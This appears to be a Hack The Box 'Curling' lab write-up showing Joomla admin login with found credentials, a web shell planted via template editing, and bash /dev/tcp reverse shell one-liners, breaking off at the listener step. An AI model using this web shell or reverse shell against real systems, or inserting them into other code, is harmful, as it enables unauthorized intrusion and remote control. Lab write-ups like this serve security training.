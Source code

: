 `000000187:   303        0 L      0 W        0 Ch        "Floris"`

### Login with credentials

```
http://10.129.171.59/administrator/index.php
Floris
Curling2018!
```

## Foothold

### Edit CMS template PHP to get RCE

1. Extensions => Templates => Templates => Protostar Details and Files
2. Edit /index.php

#### Create a superglobal variable which accepts arbitrary input

- PHP system() is just like the C version of the function in that it executes the given command and outputs the result.

- PHP $_REQUEST is a super global variable which is used to collect data after submitting an HTML form.

#### Add to existing PHP file

	system($_REQUEST['pwn']);

#### Add to empty PHP file

	<?php system($_REQUEST['pwn']); ?>
	
### RCE

	http://10.129.171.59/templates/protostar/htb.php?pwn=id		// uid=33(www-data) gid=33(www-data) groups=33(www-data) 

### Create  reverse shell script

Spawn an interactive bash shell, redirecting standard output to a tcp socket and standard input to standard output. [^3]

	bash -i >& /dev/tcp/10.10.17.201/9001 0>&1

Try this if it doesn't work:

	bash -c 'bash -i >& /dev/tcp/10.10.17.201/9001 0>&1'
	
### Create HTTP server to serve reverse shell script

	python -m SimpleHTTPServer 80		// Python
	python3	-m http.server 80			// Python 3

### Setup listener to receive reverse shell


[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html
[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261
[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency